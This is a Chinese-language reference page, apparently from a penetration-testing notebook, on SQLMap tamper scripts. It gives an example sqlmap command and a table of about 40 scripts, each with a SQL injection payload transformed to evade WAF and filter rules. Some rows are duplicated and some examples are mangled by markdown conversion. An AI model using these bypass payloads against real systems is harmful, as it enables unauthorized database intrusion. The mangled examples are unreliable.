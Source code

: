 # tamper

1、tamper的作用：  
使用SQLMap提供的tamper脚本，可在一定程度上避开应用程序的敏感字符过滤、绕过WAF规则的阻挡，继而进行渗透攻击。

2、WAF是啥？

* WAF：Web应用程序防火墙，Web Application Firewall
* IPS：入侵防御系统， Intrusion Prevention System
* IDS：入侵检测系统，Intrusion Detection System

3、tamper用法

--tamper=TAMPER 利用给定的脚本进行篡改注入数据。其用法可举例说明：

sqlmap.py -u "[http://.../?uname=admin&pwd=pass123](http://.../?uname=admin&pwd=pass123)" --level=5 --risk=3 -p "uname" --tamper=xxx.py

表示对指定的url地址，以所设置的level等级、risk等级，并采用选定的tamper篡改脚本对参数“uname”进行检测

sqlmap中所有的tamper：

各种tamper的适用范围如下图所示：

![](../../.gitbook/assets/image%20%282%29.png)

各tamper的大意如下表格所示：

<table>
  <thead>
    <tr>
      <th style="text-align:left">tamper</th>
      <th style="text-align:left">&#x529F;&#x80FD;</th>
      <th style="text-align:left">&#x4E3E;&#x4F8B;</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">apostrophemask.py</td>
      <td style="text-align:left">&#x5BF9;&#x5F15;&#x53F7;&#x8FDB;&#x884C;utf-8&#x683C;&#x5F0F;&#x7F16;&#x7801;(%EF%BC%87)</td>
      <td
      style="text-align:left">1 AND &apos;1&apos;=&apos;1 ==&gt; 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871</td>
    </tr>
    <tr>
      <td style="text-align:left">apostrophenullencode.py</td>
      <td style="text-align:left">&#x7528;&#x975E;&#x6CD5;&#x7684;&#x53CC;unicode&#x5B57;&#x7B26;(%00%27)&#x66FF;&#x6362;&#x5F15;&#x53F7;&#x5B57;&#x7B26;</td>
      <td
      style="text-align:left">1 AND &apos;1&apos;=&apos;1 ==&gt; 1 AND %00%271%00%27=%00%271</td>
    </tr>
    <tr>
      <td style="text-align:left">appendnullbyte.py</td>
      <td style="text-align:left">&#x5728;&#x6709;&#x6548;&#x8F7D;&#x8377;&#x7ED3;&#x675F;&#x4F4D;&#x7F6E;&#x52A0;&#x8F7D;&#x96F6;&#x5B57;&#x8282;&#x5B57;&#x7B26;&#x7F16;&#x7801;</td>
      <td
      style="text-align:left">1 AND 1=1 ==&gt; 1 AND 1=1%00</td>
    </tr>
    <tr>
      <td style="text-align:left">base64encode.py</td>
      <td style="text-align:left">&#x7528;base64&#x683C;&#x5F0F;&#x8FDB;&#x884C;&#x7F16;&#x7801;</td>
      <td
      style="text-align:left">1&apos; AND SLEEP(5)# ==&gt; MScgQU5EIFNMRUVQKDUpIw==</td>
    </tr>
    <tr>
      <td style="text-align:left">between.py</td>
      <td style="text-align:left">&#x7528;between&#x66FF;&#x6362;&#x5927;&#x4E8E;&#x53F7;&#xFF08;&gt;&#xFF09;</td>
      <td
      style="text-align:left">
        <p>1 AND A &gt; B --&#x200A; ==&gt; 1 AND A NOT BETWEEN 0 AND B&#x200A; --</p>
        <p>1 AND A = B --&#x200A; ==&gt; 1 AND A BETWEEN B AND B --</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">bluecoat.py</td>
      <td style="text-align:left">&#x5BF9;SQL&#x8BED;&#x53E5;&#x66FF;&#x6362;&#x7A7A;&#x683C;&#x5B57;&#x7B26;&#x4E3A;(%09)&#xFF0C;&#x5E76;&#x66FF;&#x6362;&quot;=&quot;---&gt;&quot;LIKE&quot;</td>
      <td
      style="text-align:left">SELECT username FROM users WHERE id = 1 ==&gt; SELECT%09username FROM%09users
        WHERE%09id LIKE 1</td>
    </tr>
    <tr>
      <td style="text-align:left">apostrophemask.py</td>
      <td style="text-align:left">&#x7528;utf-8&#x683C;&#x5F0F;&#x7F16;&#x7801;&#x5F15;&#x53F7;(&#x5982;&#xFF1A;%EF%BC%87)</td>
      <td
      style="text-align:left">1 AND &apos;1&apos;=&apos;1 ==&gt; 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871</td>
    </tr>
    <tr>
      <td style="text-align:left">charunicodeencode.py</td>
      <td style="text-align:left">&#x5BF9;&#x5B57;&#x7B26;&#x4E32;&#x8FDB;&#x884C;Unicode&#x683C;&#x5F0F;&#x8F6C;&#x4E49;&#x7F16;&#x7801;</td>
      <td
      style="text-align:left">SELECT FIELD%20FROM TABLE ==&gt; %u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045</td>
    </tr>
    <tr>
      <td style="text-align:left">charencode.py</td>
      <td style="text-align:left">&#x91C7;&#x7528;url&#x683C;&#x5F0F;&#x7F16;&#x7801;1&#x6B21;</td>
      <td style="text-align:left">SELECT FIELD FROM%20TABLE ==&gt; %53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45</td>
    </tr>
    <tr>
      <td style="text-align:left">chardoubleencode.py</td>
      <td style="text-align:left">&#x91C7;&#x7528;url&#x683C;&#x5F0F;&#x7F16;&#x7801;2&#x6B21;</td>
      <td style="text-align:left">SELECT FIELD FROM%20TABLE ==&gt; %2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545</td>
    </tr>
    <tr>
      <td style="text-align:left">commalessmid.py</td>
      <td style="text-align:left">&#x5C06;payload&#x4E2D;&#x7684;&#x9017;&#x53F7;&#x7528; from&#x548C;for&#x4EE3;&#x66FF;&#xFF0C;&#x7528;&#x4E8E;&#x8FC7;&#x6EE4;&#x4E86;&#x9017;&#x53F7;&#x5E76;&#x4E14;&#x662F;3&#x4E2A;&#x53C2;&#x6570;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">MID(VERSION(), 1, 1) ==&gt; MID(VERSION() FROM 1 FOR 1)</td>
    </tr>
    <tr>
      <td style="text-align:left">concat2concatws.py</td>
      <td style="text-align:left">CONCAT() ==&gt; CONCAT_WS()&#xFF0C;&#x7528;&#x4E8E;&#x8FC7;&#x6EE4;&#x4E86;CONCAT()&#x51FD;&#x6570;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">CONCAT(1,2) ==&gt; CONCAT_WS(MID(CHAR(0),0,0),1,2)</td>
    </tr>
    <tr>
      <td style="text-align:left">equaltolike.py</td>
      <td style="text-align:left">= ==&gt; LIKE&#xFF0C;&#x7528;&#x4E8E;&#x8FC7;&#x6EE4;&#x4E86;&#x7B49;&#x53F7;&quot;=&quot;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">SELECT <em> FROM users WHERE id=1 ==&gt; SELECT </em> FROM users WHERE id
        LIKE 1</td>
    </tr>
    <tr>
      <td style="text-align:left">greatest.py</td>
      <td style="text-align:left"></td>
      <td style="text-align:left">1 AND A &gt; B ==&gt; 1 AND GREATEST(A, B+1)=A</td>
    </tr>
    <tr>
      <td style="text-align:left">halfversionedmorekeywords.py</td>
      <td style="text-align:left">&#x7A7A;&#x683C; ==&gt; /*!0 &#xFF08;&#x5728;&#x5173;&#x952E;&#x5B57;&#x524D;&#x6DFB;&#x52A0;&#x6CE8;&#x91CA;&#xFF09;</td>
      <td
      style="text-align:left">union ==&gt; /*!0union</td>
    </tr>
    <tr>
      <td style="text-align:left">ifnull2ifisnull.py</td>
      <td style="text-align:left">IFNULL(A, B) ==&gt; IF(ISNULL(A), B, A)</td>
      <td style="text-align:left">IFNULL(1, 2) ==&gt; IF(ISNULL(1),2,1)</td>
    </tr>
    <tr>
      <td style="text-align:left">informationschemacomment.py</td>
      <td style="text-align:left">
        <p>&#x5728; information_schema &#x540E;&#x9762;&#x52A0;&#x4E0A; /**/ &#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;&#x5BF9;
          information_schema &#x7684;&#x60C5;&#x51B5;</p>
        <p>retVal = re.sub(r&quot;(?i)(information_schema).&quot;, &quot;g&lt;1&gt;/**/.&quot;,
          payload)</p>
      </td>
      <td style="text-align:left">select table_name from information_schema.tables ==&gt; select table_name
        from information_schema/**/.tables</td>
    </tr>
    <tr>
      <td style="text-align:left">lowercase.py</td>
      <td style="text-align:left">&#x5C06; payload &#x91CC;&#x7684;&#x5927;&#x5199;&#x8F6C;&#x4E3A;&#x5C0F;&#x5199;</td>
      <td
      style="text-align:left">SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==&gt; select table_name
        from information_schema.tables</td>
    </tr>
    <tr>
      <td style="text-align:left">modsecurityversioned.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x6765;&#x5305;&#x56F4;&#x5B8C;&#x6574;&#x7684;&#x67E5;&#x8BE2;&#x8BED;&#x53E5;&#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;
        ModSecurity &#x5F00;&#x6E90; waf</td>
      <td style="text-align:left">1 AND 2&gt;1-- ==&gt; 1 /<em>!30874AND 2&gt;1</em>/--</td>
    </tr>
    <tr>
      <td style="text-align:left">modsecurityzeroversioned.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x6765;&#x5305;&#x56F4;&#x5B8C;&#x6574;&#x7684;&#x67E5;&#x8BE2;&#x8BED;&#x53E5;&#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;
        waf &#xFF0C;&#x548C;&#x4E0A;&#x9762;&#x7C7B;&#x4F3C;</td>
      <td style="text-align:left">1 and 2&gt;1--+ ==&gt; 1 /!00000and 2&gt;1/--+</td>
    </tr>
    <tr>
      <td style="text-align:left">multiplespaces.py</td>
      <td style="text-align:left">&#x56F4;&#x7ED5;SQL&#x5173;&#x952E;&#x5B57;&#x6DFB;&#x52A0;&#x591A;&#x4E2A;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">1 UNION SELECT foobar ==&gt; 1 UNION SELECT foobar</td>
    </tr>
    <tr>
      <td style="text-align:left">nonrecursivereplacement.py</td>
      <td style="text-align:left">&#x5173;&#x952E;&#x5B57;&#x53CC;&#x5199;&#xFF0C;&#x53EF;&#x7528;&#x4E8E;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;</td>
      <td
      style="text-align:left">1 UNION SELECT 2-- ==&gt; 1 UNIONUNION SELESELECTCT 2--</td>
    </tr>
    <tr>
      <td style="text-align:left">overlongutf8.py</td>
      <td style="text-align:left">&#x8F6C;&#x6362;&#x7ED9;&#x5B9A;&#x7684;payload&#x5F53;&#x4E2D;&#x7684;&#x6240;&#x6709;&#x5B57;&#x7B26;</td>
      <td
      style="text-align:left">SELECT FIELD FROM TABLE WHERE 2&gt;1 ==&gt; SELECT%C0%AAFIELD%C0%AAFROM%C0%AATABLE%C0%AAWHERE%C0%AA2%C0%BE1</td>
    </tr>
    <tr>
      <td style="text-align:left">percentage.py</td>
      <td style="text-align:left">&#x7528;&#x767E;&#x5206;&#x53F7;&#x6765;&#x7ED5;&#x8FC7;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;&#xFF0C;&#x5728;&#x5173;&#x952E;&#x5B57;&#x7684;&#x6BCF;&#x4E2A;&#x5B57;&#x6BCD;&#x524D;&#x9762;&#x90FD;&#x52A0;&#x4E00;&#x4E2A;(%)</td>
      <td
      style="text-align:left">SELECT FIELD FROM TABLE ==&gt; %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E</td>
    </tr>
    <tr>
      <td style="text-align:left">randomcase.py</td>
      <td style="text-align:left">&#x5C06; payload &#x968F;&#x673A;&#x5927;&#x5C0F;&#x5199;</td>
      <td style="text-align:left">INSERT ==&gt; InseRt</td>
    </tr>
    <tr>
      <td style="text-align:left">randomcomments.py</td>
      <td style="text-align:left">&#x5728; payload &#x7684;&#x5173;&#x952E;&#x5B57;&#x4E2D;&#x95F4;&#x968F;&#x673A;&#x63D2;&#x5165;&#x6CE8;&#x91CA;&#x7B26;
        /**/ &#xFF0C;&#x53EF;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;</td>
      <td
      style="text-align:left">INSERT ==&gt; I / <b> / N / </b> / SERT</td>
    </tr>
    <tr>
      <td style="text-align:left">securesphere.py</td>
      <td style="text-align:left">&#x5728;payload&#x540E;&#x8FFD;&#x52A0;&#x7279;&#x6B8A;&#x6784;&#x9020;&#x7684;&#x5B57;&#x7B26;&#x4E32;</td>
      <td
      style="text-align:left">1 AND 1=1 ==&gt; 1 AND 1=1 and &apos;0having&apos;=&apos;0having&apos;</td>
    </tr>
    <tr>
      <td style="text-align:left">space2comment.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x7B26; // &#x4EE3;&#x66FF;&#x7A7A;&#x683C;&#xFF0C;&#x7528;&#x4E8E;&#x7A7A;&#x683C;&#x7684;&#x7ED5;&#x8FC7;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT//id//FROM//users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2dash.py</td>
      <td style="text-align:left">&#x7528;[&#x6CE8;&#x91CA;&#x7B26;(--)+&#x4E00;&#x4E2A;&#x968F;&#x673A;&#x5B57;&#x7B26;&#x4E32;+&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;&#x63A7;&#x5236;&#x7B26;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union--HSHjsJh%0Aselect--HhjHSJ%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2hash.py</td>
      <td style="text-align:left">&#x7528;[&#x6CE8;&#x91CA;&#x7B26;(#)+&#x4E00;&#x4E2A;&#x968F;&#x673A;&#x5B57;&#x7B26;&#x4E32;+&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;&#x63A7;&#x5236;&#x7B26;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union%23HSHjsJh%0Aselect%23HhjHSJ%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2morehash.py</td>
      <td style="text-align:left">&#x7528;&#x591A;&#x4E2A;[&#x6CE8;&#x91CA;&#x7B26;(#)+&#x4E00;&#x4E2A;&#x968F;&#x673A;&#x5B57;&#x7B26;&#x4E32;+&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;&#x63A7;&#x5236;&#x7B26;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union %23 HSHjsJh %0A select %23 HhjHSJ %0A%23
        HJHJhj %0A 1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2mssqlblank.py</td>
      <td style="text-align:left">&#x7528;&#x968F;&#x673A;&#x7684;&#x7A7A;&#x767D;&#x7B26;&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT%0Eid%0DFROM%07users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2mssqlhash.py</td>
      <td style="text-align:left">&#x7528;[&#x5B57;&#x7B26;# +&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union%23%0Aselect%23%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2plus.py</td>
      <td style="text-align:left">&#x7528;&#x52A0;&#x53F7;(+)&#x66FF;&#x6362;&#x7A7A;&#x683C;</td>
      <td style="text-align:left">SELECT id FROM users ==&gt; SELECT+id+FROM+users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2randomblank.py</td>
      <td style="text-align:left">&#x7528;&#x968F;&#x673A;&#x7684;&#x7A7A;&#x767D;&#x7B26;&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT%0Did%0DFROM%0Ausers</td>
    </tr>
    <tr>
      <td style="text-align:left">sp_password.py</td>
      <td style="text-align:left">&#x5728;payload&#x8BED;&#x53E5;&#x540E;&#x6DFB;&#x52A0; sp_password &#xFF0C;&#x7528;&#x4E8E;&#x8FF7;&#x60D1;&#x6570;&#x636E;&#x5E93;&#x65E5;&#x5FD7;&#xFF08;Space
        ==&gt; sp_password&#xFF09;</td>
      <td style="text-align:left">1 AND 9227=9227-- ==&gt; 1 AND 9227=9227 -- sp_password</td>
    </tr>
    <tr>
      <td style="text-align:left">symboliclogical.py</td>
      <td style="text-align:left">&#x7528; &amp;&amp; &#x66FF;&#x6362; and &#xFF0C;&#x7528; || &#x66FF;&#x6362;
        or &#xFF0C;&#x7528;&#x4E8E;&#x8FD9;&#x4E9B;&#x5173;&#x952E;&#x5B57;&#x88AB;&#x8FC7;&#x6EE4;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">
        <p>1 and 1=1 ==&gt; 1 %26%26 1=1</p>
        <p>1 or 1=1 ==&gt; 1 %7c%7c 1=1</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">unionalltounion.py</td>
      <td style="text-align:left">&#x7528; union select &#x66FF;&#x6362;union all select</td>
      <td style="text-align:left">union all select 1,2--+ ==&gt; union select 1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">unmagicquotes.py</td>
      <td style="text-align:left">&#x7528;&#x5BBD;&#x5B57;&#x7B26;&#x7ED5;&#x8FC7; GPC addslashes</td>
      <td
      style="text-align:left">1&apos; and 1=1 ==&gt; 1%df%27 and 1=1--</td>
    </tr>
    <tr>
      <td style="text-align:left">uppercase.py</td>
      <td style="text-align:left">&#x5C06;payload&#x4E2D;&#x7684;&#x5C0F;&#x5199;&#x5B57;&#x6BCD;&#x8F6C;&#x4E3A;&#x5927;&#x5199;&#x683C;&#x5F0F;</td>
      <td
      style="text-align:left">insert ==&gt; INSERT</td>
    </tr>
    <tr>
      <td style="text-align:left">varnish.py</td>
      <td style="text-align:left">&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;HTTP&#x5934;&#x201C; X-originating-IP
        &#x201D;&#x6765;&#x7ED5;&#x8FC7;WAF</td>
      <td style="text-align:left"></td>
    </tr>
    <tr>
      <td style="text-align:left">versionedkeywords.py</td>
      <td style="text-align:left">&#x5BF9;&#x975E;&#x51FD;&#x6570;&#x7684;&#x5173;&#x952E;&#x5B57;&#x8FDB;&#x884C;&#x6CE8;&#x91CA;</td>
      <td
      style="text-align:left">1 union select user() ==&gt; 1/!UNION//!SELECT/user()</td>
    </tr>
    <tr>
      <td style="text-align:left">versionedmorekeywords.py</td>
      <td style="text-align:left">&#x5BF9;&#x6BCF;&#x4E2A;&#x5173;&#x952E;&#x5B57;&#x8FDB;&#x884C;&#x6CE8;&#x91CA;&#x5904;&#x7406;</td>
      <td
      style="text-align:left">1 union select user() ==&gt; 1/!UNION//!SELECT/user()</td>
    </tr>
    <tr>
      <td style="text-align:left">xforwardedfor.py</td>
      <td style="text-align:left">&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;&#x4F2A;&#x9020;&#x7684;HTTP&#x5934;&#x201C;
        X-Forwarded-For &#x201D;&#x6765;&#x7ED5;&#x8FC7;WAF</td>
      <td style="text-align:left">headers = kwargs.get(&quot;headers&quot;, {})headers[&quot;X-Forwarded-For&quot;]
        = randomIP()return payload</td>
    </tr>
  </tbody>
</table>

